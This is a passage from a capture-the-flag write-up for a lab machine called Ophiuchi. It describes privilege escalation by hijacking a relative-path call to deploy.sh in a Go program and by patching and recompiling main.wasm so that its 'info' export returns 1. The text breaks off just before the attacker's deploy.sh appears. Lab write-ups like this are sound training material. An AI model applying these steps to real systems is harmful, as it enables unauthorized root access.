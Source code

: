```golang
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

My first thought was that there might be [some sort of dependency injection](https://itnext.io/golang-stop-trusting-your-dependencies-a4c916533b04) to use with regards to the `wasm` import, and it turns out I wasn't _quite_ wrong - I was just looking in the wrong place. See anything fishy about the call to `deploy.sh`? I didn't either for a while, until my friends [Pascal_0x90](https://twitter.com/Pascal_0x90) and [initinfosec](https://twitter.com/initinfosec) gave me a few nudges. If you look at the line with `deploy.sh` it becomes apparent that `index.go` is calling it with a _relative_ path, meaning we can just change what directory we're in in order to call our own version of `deploy.sh`. First we have to satisfy the script conditions, though...

Looking back we notice that it's looking for some value `f` to be set to 1. A few lines before, it imports a file `main.wasm` and uses the result of the export for "info" as the value of `f`. Wait, what the hell is a `.wasm`?? Googling for that leads us to [the WebAssembly wabt GitHub](https://github.com/WebAssembly/wabt). It basically looks like we can take the `wasm`, convert it to a text format `.wat`, and have something much more readable. Install `wabt` from the installation instructions and then let's decompile the `wasm` with the following commands.

* `scp admin@ophiuchi.htb:/opt/wasm-functions/main.wasm ./main.wasm`
* `build/wasm2wat ../../main.wasm > ../../main.wat` (remember the paths are relative, so it may be different on your system)
* `mv main.wasm main.wasm.bak` for safe keeping, in case anything goes wrong

Let's take a look at what we have now in `main.wat`:

```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

That's...incredibly un-helpful. Remember that we're looking for some kind of export...we see an export line for "info", which uses the function `$info`. Some intuition tells us that the `i32.const 0` is that export, so edit `main.wat` to have `i32.const 1` set. Let's re-compile with `build/wat2wasm main.wat > main.wasm`, transfer it back to the victim box, and set up our `main.wasm` and a `deploy.sh` somewhere safe (I like to use `/tmp` since it's _usually_ writeable). Since this article is getting long, I'll skip the experiments - our choices for privesc are severely limited by SELinux on this host - this is what ultimately worked for me in `deploy.sh`:
